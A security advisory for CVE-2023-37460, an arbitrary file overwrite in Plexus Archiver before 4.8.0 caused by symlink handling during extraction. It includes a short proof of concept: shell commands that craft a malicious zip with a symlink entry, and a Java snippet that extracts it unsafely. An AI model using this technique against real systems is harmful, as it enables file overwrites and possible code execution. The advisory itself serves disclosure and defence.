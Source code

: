 ```yaml
---
description: CVE-2023-37460, High, Plexus Archiver arbitrary file overwrite
title: Plexus Archiver arbitrary file overwrite
date_published: "2023-07-26"
last_updated: "2023-07-26"
xray_id: XRAY-526292
vul_id: CVE-2023-37460
cvss: 8.1
severity: high
discovered_by: Uriya Yavnieli
type: vulnerability
---
```


## Summary

Using AbstractUnArchiver for extracting an archive might lead to an arbitrary file creation and possibly remote code execution

## Component

org.codehaus.plexus:plexus-archiver

## Affected versions

(,4.8.0)

## Description

Plexis Archiver is a collection of **Plexus** components to create archives or extract archives to a directory with a unified `Archiver`/`UnArchiver` API. Prior to version 4.8.0, using AbstractUnArchiver for extracting an archive might lead to an arbitrary file creation and possibly remote code execution. When extracting an archive with an entry that already exists in the destination directory as a symbolic link whose target does not exist - the `resolveFile()` function will return the symlink's source instead of its target, which will pass the verification that ensures the file will not be extracted outside of the destination directory. Later `Files.newOutputStream()`, that follows symlinks by default, will actually write the entry's content to the symlink's target. Whoever uses **plexus** archiver to extract an untrusted archive is vulnerable to an arbitrary file creation and possibly remote code execution. Version 4.8.0 contains a patch for this issue.

## PoC

Creating the "malicious" archive -

```
$ ln -s /tmp/target entry1
$ echo -ne “content” > entry2
$ zip  --symlinks archive.zip entry1 entry2
$ sed -i 's/entry2/entry1/' archive.zip
```



Vulnerable code snippet -

```
package com.example;

import java.io.File;
import org.codehaus.plexus.archiver.zip.ZipUnArchiver;

public class App 
{
    public static void main( String[] args )
    {
        ZipUnArchiver unArchiver = new ZipUnArchiver(new File("archive.zip"));
        unArchiver.setDestDirectory(new File("/tmp/extracted_files"));
        unArchiver.extract();        
    }
}
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

https://github.com/codehaus-plexus/plexus-archiver/security/advisories/GHSA-wh3p-fphp-9h2m
